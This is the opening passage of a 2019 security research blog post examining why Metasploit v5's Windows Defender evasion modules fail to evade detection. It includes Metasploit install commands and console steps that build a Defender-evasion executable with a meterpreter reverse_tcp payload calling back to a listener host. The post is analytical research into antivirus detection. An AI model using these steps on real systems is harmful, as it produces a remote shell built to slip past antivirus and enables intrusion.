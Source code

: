 ```yaml
---
date:   2019-01-23 22:00:00 +0200
excerpt: "A research on why the new defender evasion modules fail to evade"
title:  "Beating Windows Defender. Analysis of Metasploit's new evasion modules."
toc: true
tags:
  - posts
  - defender
  - metasploit
  - meterpreter
  - bypass
  - evasion
---
```

# Introduction  
---
Recently my colleague Alexander Tzokev wrote in his blog [tzokev.com](http://www.tzokev.com/) about the new evasion modules in Metasploit v5 and how they fail at their job of... evading. I wanted to analyze the resulting binaries and see if there's something interesting on the assembly level that might be triggering a signature. This research is based on Alexander's post, but because I want it to be stand-alone, I'll have to repeat some of his findings first. 

# Installing Metasploit v5  
---
Rapid7 announced the release of evasion modules in the new major release of Metasploit (v5). Currently there are only 2 such modules available and both are for Windows Defender. Before I started with the analysis I had to get my hands on Metasploit v5, which is quite easy. Clone the git repository and install some dependencies.

```bash
git clone https://github.com/rapid7/metasploit-framework.git
sudo apt update && sudo apt install -y git autoconf build-essential libpcap-dev libpq-dev zlib1g-dev libsqlite3-dev
cd ~/metasploit-framework/
# you need ruby 2.5.3
gem install bundler
bundle install
# if there are error messages use apt-get install to resolve dependencies
```

Working with the evasion modules is also simple:
```
use evasion/windows/windows_defender_exe
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.0.100
# Verbose prints out the C code template
set verbose true
run
```
